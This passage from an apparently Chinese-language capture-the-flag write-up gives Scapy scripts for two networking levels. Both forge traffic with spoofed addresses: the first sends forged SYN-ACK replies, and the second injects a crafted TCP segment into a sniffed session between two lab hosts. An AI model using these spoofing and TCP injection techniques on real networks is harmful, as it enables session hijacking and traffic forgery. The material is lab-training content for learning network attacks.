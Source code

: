 ```python
from scapy.all import TCP, sr1, IP, sniff, Ether, send, sendp

mac_2 = "36:11:33:c5:63:50"
mac_3 = "ea:5e:73:56:03:6f"
mac_4 = "b2:b3:5c:60:01:08"

def handle_packet(packet):
    if  "IP" in packet and "TCP" in packet["IP"]:

        if packet["TCP"].flags == "S":
            ether = Ether(src=mac_2,dst=mac_4)
            ip = IP(src="10.0.0.2",dst="10.0.0.4")
            tcp_ = TCP(seq=456132, ack=packet["TCP"].seq+1, flags="SA", dport=packet["TCP"].sport, sport=31337)
            send_packet = ether / ip / tcp_
            send_packet.show()
            tcp_3 = send(send_packet, iface="eth0")

        # 如果有 TCP 负载，打印负载信息
        if packet[TCP].payload:
            print("-" * 50)
            print(f"Payload: {bytes(packet[TCP].payload)}")
            print("-" * 50)

        
sniff(prn=handle_packet, iface="eth0")
```



## level 14

注意`ack=(pkt.seq + len(pkt[Raw].payload)`。 `ack`和符号标志位的`ACK`是不一样的

```python
from scapy.all import TCP, IP, sniff, Ether, send, sendp, Raw

mac_2 = "0a:be:cb:0c:2f:c3"
mac_3 = "4a:3c:5e:46:45:9e"
mac_4 = "7e:2b:6a:5e:37:b0"
mac_ = None

def handle_packet(packet):
    
    if  "IP" in packet and "TCP" in packet["IP"] and packet["IP"].src == "10.0.0.3" and \
        packet["IP"].dst == "10.0.0.4" and packet.haslayer(Raw) and b'COMMANDS:' in packet[Raw].load:

        ether = Ether(src=mac_2, dst=mac_3)
        ip = IP(src="10.0.0.4", dst="10.0.0.3")
        tcp_ = TCP(seq=packet[TCP].ack, ack=packet[TCP].seq+1, sport=packet[TCP].dport, dport=packet[TCP].sport)
        payload = Raw(b'FLAG\n')
        send_packet =  ip / tcp_ / payload
        sendp(send_packet, iface="eth0")

    # 如果有 TCP 负载，打印负载信息
    if packet.haslayer(TCP) and packet[TCP].payload:
        print("-" * 50)
        print(packet[Raw].load)
        print("-" * 50)


def inject(pkt):
```